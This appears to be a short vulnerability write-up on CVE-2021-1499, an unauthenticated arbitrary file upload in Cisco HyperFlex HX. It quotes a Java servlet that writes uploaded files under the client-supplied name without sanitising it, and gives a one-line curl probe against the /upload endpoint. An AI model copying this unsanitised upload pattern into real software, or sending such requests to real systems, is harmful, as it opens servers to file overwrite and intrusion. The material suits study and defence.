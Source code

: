 # Cisco HyperFlex HX upload any file upload vulnerability CVE-2021-1499

## Vulnerability Description

Cisco fixes two Unauth RCE and an arbitrary file upload in the HyperFlex HX data platform discovered by researchers Nikita Abramov and Mikhail Klyuchnikov

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco HyperFlex HX</span>

## Vulnerability reappears

The code that has a vulnerability is

```java
public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    this.isMultipart = ServletFileUpload.isMultipartContent(request);
    response.setContentType("application/json");
    PrintWriter out = response.getWriter();
    if (!this.isMultipart) {
      out.println("{\"result\": \"Invalid content-type.\"}");
      logger.error("{\"result\": \"Invalid content-type. Must be multi-part\"}");
      response.setStatus(400);
      return;
    }
    ServletFileUpload upload = new ServletFileUpload();
    upload.setSizeMax(this.maxFileSize);
    FileOutputStream fout = null;
    InputStream stream = null;
    try {
      FileItemIterator iter = upload.getItemIterator(request);
      while (iter.hasNext()) {
        try {
          FileItemStream fi = iter.next();
          stream = fi.openStream();
          String uploadedFileName = this.dirPath + "/" + fi.getName();
          File uploadedFile = new File(uploadedFileName);
          fout = new FileOutputStream(uploadedFile);
          byte[] buffer = new byte[1024];
          int len;
          while ((len = stream.read(buffer, 0, buffer.length)) != -1)
            fout.write(buffer, 0, len);
          out.println("{\"result\": \"filename: " + uploadedFileName + "\"}");
          logger.debug("{\"result\": \"filename: " + uploadedFileName + "\"}");
        } catch (org.apache.commons.fileupload.MultipartStream.MalformedStreamException ex) {
          logger.info("MalformedStreamException during file upload servlet stream processing: " + ex);
        } finally {
          if (fout != null) {
            logger.info("Closing fout");
            fout.close();
          }
          if (stream != null) {
            logger.info("Closing stream");
            stream.close();
          }
        }
      }
    } catch (Exception ex) {
      out.println("{\"result\": \"Upload failed: " + ex.getMessage() + "\"}");
      logger.error("{\"result\": \"Upload failed: " + ex.getMessage() + "\"}");
      logger.error("Exception during file upload servlet stream processing: " + ex);
      response.setStatus(500);
    }
```

POC is

```plain
curl -v https://xxx.xxx.xxx.xxx/upload -F x=@/dev/null
```